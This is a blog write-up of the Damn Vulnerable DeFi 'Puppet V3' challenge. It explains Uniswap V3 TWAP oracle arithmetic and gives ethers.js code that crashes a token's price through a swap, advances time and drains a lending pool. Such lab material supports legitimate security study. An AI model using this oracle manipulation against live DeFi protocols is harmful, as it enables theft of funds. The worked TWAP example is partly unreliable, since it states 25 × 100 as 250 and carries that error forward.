

+++ 
draft = false
date = 2023-03-11T16:33:31+11:00
title = "Puppet V3 - DamnVulnerableDeFi v3 #14"
description = "Writeup for the Puppet v3 challenge"
slug = ""
authors = []
tags = ["defi", "DamnVulnerableDeFi", "puppet v3", "writeup"]
images = ["/BlueAlder_DP.png"]
categories = []
externalLink = ""
series = []
toc = true
+++

[](https://youtu.be/739nV8FuZE8)

# Writeup

This challenge is the third "puppet" challenge relating to Uniswap Pools and is
very similar to Puppet V2, so I will not be covering the basic Uniswap concepts
but will be focusing on the Uniswap V3 concepts related to this challenge. To
catchup I recommend watching my [YouTube video on Puppet
V2](https://www.youtube.com/watch?v=M9s8wWOP9LU) (at the start of the video I
also recommend watching Puppet V1)

[My YouTube walkthrough of this challenge is also
available.](https://youtu.be/739nV8FuZE8)

## Challenge Overview

In this challenge we are given a Lending Pool which uses the oracle price from a
Uniswap V3 liquidity pool to calculate the deposit required to lend the pool's
DVT tokens. 

The goal of the challenge is to take all 1,000,000 DVT tokens from the Lending
pool with only 10 starting ETH.

## Exploit Overview

This is very similar to the puppet V2 exploit except we are now using the
Uniswap V3 protocol which introduces the idea of concentrated liquidity by
separating the price range of the liquidity pool into discrete ticks. A great
resource in in learning the new Uniswap V3 protocol is the [Uniswap v3
Development Book](https://uniswapv3book.com/).

To exploit this challenge we just need to manipulate the price to heavily
devalue DVT relative to WETH, then wait some time so that our new price will be
weighted a bit heavier in the TWAP calculation. Then when we call the lending
pool, the price is low enough that we can extract all 1,000,000 tokens from the
pool.  

The main concept here I will cover is how the Oracle price is calculated. If you
don't care about the Uniswap V3 details and just want to get to the exploit you
can skip over the [next section](#the-exploit) :).

### TWAP Oracle

The lending pool contract uses the Uniswap V3 liquidity pool's Oracle function
to calculate the price of the price of DVT in terms of WETH. In v3 it uses a
Time Weighted Average Price (TWAP) to calculate the price. This means instead of
using the current reserve amounts to calculate the price, it uses historical
data over a specified period (in this case 10 minutes) to calculate the average
price in that time. 

To do this Uniswap V3 uses a concept of `observations`. Observations are made
whenever a swap is made which changes the tick price of a pool. However
observations are made BEFORE the new swap price is calculated.

```sol
struct Observation {
        // the block timestamp of the observation
        uint32 blockTimestamp;
        // the tick accumulator, i.e. tick * time elapsed since the pool was first initialized
        int56 tickCumulative;
        // the seconds per liquidity, i.e. seconds elapsed / max(1, liquidity) since the pool was first initialized
        uint160 secondsPerLiquidityCumulativeX128;
        // whether or not the observation is initialized
        bool initialized;
    }
```

In these observations we store the tickCumulative values, which is the sum of
ticks at each second the history of a pool contract. The accumulated tick is
calculated by 

```
tickCumulative = lastObservation.tickCumulative  + (currentTick *
deltaTimeSinceLastObservation)
```

When a pool is initialized the first observation will have a tickCumulative of 0
since no time has passed.

When a swap happens and say the new tick of the pool becomes 25 and it has
been 10 seconds since the last observation. Then the latest observation will
have a tickCumulative of:

`0 + (0 * 10) = 0`

This is because it is taking the price that was calculated BEFORE the swap happened.

Then another swap happens and the new tick price is 75 and it has been 100
seconds since the last observation. Then the latest observation will have a
tickCumulative of:

`0 + (25 * 100) = 250`

Then finally another swap happens 50 seconds later and the new tick price is 90.

`250 + (75 * 50) = 4000`

So now we have 3 observations stored.

| Observation Index | timestamp| tickCumulative|
|----------|--------|-----------|
| 0| 0| 0|
| 1|10| 0|
|2| 110| 250| 
|3|160| 4000|

So now say we want to calculate the TWAP over the last 100 seconds and we call
this at timestamp=180. In other words we are asking, what was the average price
between timestamps 180 and 80?

We calculate the tickCumulative at timestamp=180. We multiply the currentTick by
the deltaTime (which is 20 seconds) since the last observation and add it to the
last observation cumulative to get our new tickCumulative. Remember that the
latest tick price is 90

```
last.tickCumulative + (currentTick * deltaSeconds)
4000 + (90 * 20) = 5800
```

This gives us our current tickCumulative reading of 5800.

We then want to calculate the tickCumulative at timestamp=80 (which is 100
seconds ago, in other words at the start of the TWAP period). This is done by
binary searching until either we find an observation which was taken at that
exact timestamp or we find two observations which are next to each other which would contain the timestamp.

In this case we would find the two observations at indexes 1 and 2, I am going
to refer to these as the left and right boundary respectively. Since we don't
have a exact price point at that timestamp we **interpolate** the data between
those two observations to calculate the estimated tick at that time (this is
fancy for drawing a line between the two points). 

To calculate this we first calculate the time difference between the left and
right observation's timestamps.

```
observationTimeDelta = right.timestamp - left.timestamp
100 = 110 - 10
```

Then the time delta from the left observation to our desired timestamp

```
targetDelta = target - left.timestamp
70 = 80 - 10
```

Then to "draw a line" between the two observations and calculate the
interpolated value at that timestamp we calculate the average change in
tickCumulative per second between the two observations.

```
averageChangeTickCumulative = (right.tickCumulative - left.tickCumulative) / observationTimeDelta
2.5 = (250 - 0) / 100
```

We then multiply this by the timeDelta  and add the left.tickCumulative to get
the interpolated tickCumulative at timestamp=80.

```
tickCumulative = left.tickCumulative + (averageChangeTickCumulative * targetDelta)
175 = 0 + (2.5 * 70)
```

So we now have the tickCumulatives at t=80 and t=180 of 175 and 5800
respectively. So now let's calculate the average tick for this period. We do
this by subtracting the two tickCumulatives and then divide by the number of
seconds in the period.

```
timeWeightedAverageTick = (t130TickCumulative - t80TickCumulative) / period
56.25  = (5800 - 175) / 100
```

From there we can calculate the price from the tick with (1.0001 ** 56.25). The
main concept here is that we are using the accumulated ticks which creates
heavier weights for observations that cover a longer period of time which
mitigates Oracle inaccuracy during times of high volatility.

There is also more to this that includes cardinality of the pool, but this is
not relevant in this particular challenge. For further reading on the topic
I recommend reading the [Uniswap V3 Development Book's chapter on the Price
Oracle](https://uniswapv3book.com/docs/milestone_5/price-oracle/).

<!-- *V3 actually stores the ticks, but this is easier to understand conceptually. To
understand the maths behind how this works, check out [this page in the Uniswap
v3 Development Book.](https://uniswapv3book.com/docs/milestone_5/price-oracle/).
But I am going to use prices for the rest of the explanation. -->


### The Exploit

In this challenge the exploit is simply that the Time Weighted Average Price
(TWAP) of 10 minutes is not long enough to mitigate short term volatility. In
the constraints of the solution we are required to steal all funds from the
lending pool in less than 115 seconds which is just under 20% of the TWAP
period.

So this is our plan:

1. Swap all our DVT for WETH to heavily devalue DVT relative to WETH
2. Wait some time so the TWAP's calculation uses more of the new price in it's
   calculation.
3. Call the lending pool to get the funds at a heavily discounted rate.

To perform the swap we first will want to connect to the Uniswap V3 router to
make our lives much easier. The router will do a lot of calculations for us to
make it more user friendly than interacting directly with the Uniswap V3 pools. 

We can do this by grabbing the official Uniswap V3 router address from the
uniswap docs and connecting to it, similarly to how the challenge is setup to
connect to the existing Uniswap V3 Factory.

```js
const uniswapRouterAddress = "0x68b3465833fb72A70ecDF485E0e4C7bD8665Fc45";
log(`Connecting to uniswap router at mainnet address ${uniswapRouterAddress}`)
const uniswapRouter = new ethers.Contract(uniswapRouterAddress, routerJson.abi, player);
```

We then need to approve the **router** to take our DVT tokens for the trade and
then perform the swap.

```js
log("Approving all player tokens to be taken from the uniswap router");
await attackToken.approve(uniswapRouter.address, PLAYER_INITIAL_TOKEN_BALANCE);

log("Swapping all player tokens for as much WETH as possible.");
await uniswapRouter.exactInputSingle(
    [attackToken.address,
    weth.address,   
    3000,
    player.address,
    PLAYER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
    0,
    0],
    {
        gasLimit: 1e7
    }
);
```

This swap is essentially performing the following operation "please swap exactly
110 DVT tokens for as much WETH as possible".

However, if we now call the lending pool and get a quote for the price of
lending the 1,000,000 DVT tokens, we are still going to get a quote of 3,000,000
WETH because the TWAP calculation will give the new price a weight of 0 since it
just happened (remember the calculation is tick * (timeSinceLastObservation)).

So let's just wait some time to increase the weight of the new price in the
calculation. Since we only have 115 seconds according to the constraints of the
challenge, we can jump 110 seconds which will leave us a couple of seconds to
perform any other transactions (such as approvals and the swap).

```javascript
// Increase block time by 110 seconds
log("Increasing block time by 110 seconds");
await time.increase(110);
```

Now let's get a new quote to see how much borrowing the 1,000,000 DVT tokens
will be. Then we approve that amount to be transferred to the contract and then
execute the `borrow()` function.

```javascript
const quote = await attackLendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
await attackWeth.approve(attackLendingPool.address, quote);
await attackLendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
```

If everything goes right, then the borrow function should succeed since we have
managed to lower the TWAP enough that it becomes super cheap to borrow all the
funds and complete the challenge!

